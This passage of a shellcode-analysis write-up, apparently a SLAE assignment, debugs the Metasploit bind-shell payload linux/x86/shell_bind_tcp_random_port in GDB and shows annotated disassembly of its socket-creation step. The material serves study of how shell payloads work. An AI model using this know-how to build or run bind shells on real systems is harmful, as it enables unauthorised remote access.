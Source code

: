 ``Graphical view for payload linux/x86/shell_bind_tcp_random_port``

### Debugging linux/x86/shell_bind_tcp_random_port

To disassemble the desired part of *shellcode.c*, launching the GDB debugger using *sudo* command and issuing **break *&code**. Then it is possible to run the file and get the disassembled code.

As a basis, the following hook-stop will be defined:

````
define hook-stop
print /x $eax
print /x $ebx
print /x $ecx
print /x $edx
x/4w $esp
disassemble $eip,+20
end
````
``Hook-stop defined for debugging linux/x86/shell_bind_tcp_random_port``

First, the payload will create a socket for IP protocol.
````
   0x0804a040 <+0>:	xor    ebx,ebx
   0x0804a042 <+2>:	mul    ebx
   0x0804a044 <+4>:	mov    al,0x66     ;syscall socketcall
   0x0804a046 <+6>:	inc    ebx
   0x0804a047 <+7>:	push   edx         ;protocol = 0
   0x0804a048 <+8>:	push   ebx         ;type = SOCK_STREAM
   0x0804a049 <+9>:	push   0x2         ;domain = AF_INET
   0x0804a04b <+11>:	mov    ecx,esp     ;loads arguments
   0x0804a04d <+13>:	int    0x80        ;creates the socket
````
``Debugging socket creation``

After successful execution of this part, the *EAX* register will store the *file descriptor* id for the socket created.

![](../Images/12_slae_assignment_5.png)
